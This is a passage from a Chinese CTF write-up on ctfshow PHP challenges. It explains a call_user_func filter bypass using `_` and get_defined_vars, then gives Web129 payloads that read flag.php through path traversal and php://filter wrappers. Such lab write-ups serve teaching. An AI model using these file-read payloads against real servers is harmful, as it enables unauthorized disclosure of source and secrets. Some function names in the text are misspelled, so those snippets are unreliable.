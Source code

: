 ```php
}



function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

关键是`var_dump(call_user_func(call_user_func($f1,$f2)));` 最外是var_dump尝试构造`call_user_func(call_user_func($f1,$f2))`能获取变量flag,而且需要使用一个不要参数的回调函数因为前一个`call_user_func(最里面回调函数的结果为一个函数名,无参数)`自然想到`get_definded_var()`这个函数，但是要使里面的`call_user_func($f1,$f2)`得到`get_defined_vars`在没有过滤的情况下思路是使用strvar这样的函数构造get_definded_var，或者hex2bin构造出get_definded_var，但是这里进行了过滤字符和数字。看wp是这样说的，使用_()函数，该函数等于gettext()。可以将参数翻译成指定语言，一般就是原封不动的输出参数，get_defined_vars 函数可以输出所有变量的信息，两者结合拿到 flag。

payload：`f1=_&f2=get_defined_vars`

不过在删掉过滤的时候本地测试时发现var_dump(call_user_func(call_user_func("strvar","get_definded_var")));是不行的，后面尝试了`$a="get_defined_vars";var_dump(call_user_func($a));`的方式都不能调用`get_defined_vars`，查了下资料说是call_user_func()函数不支持引用传递。按道理来说`call_user_func("_","get_definded_var")`回调结果也是一个变量应该也不行。不知道是不是版本问题，或者拓展问题毕竟`_()和gettext()`都是要安装拓展的。

## Web129

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 03:18:40

*/


error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

paylaod：

```
f=/ctfshow/../var/www/html/flag.php
// php对无法识别的过滤器只会warning不会报错
f=php://filter/ctfshow/resource=flag.php
f=php://filter/ctfshow|convert.base64-encode/resource=flag.php
```
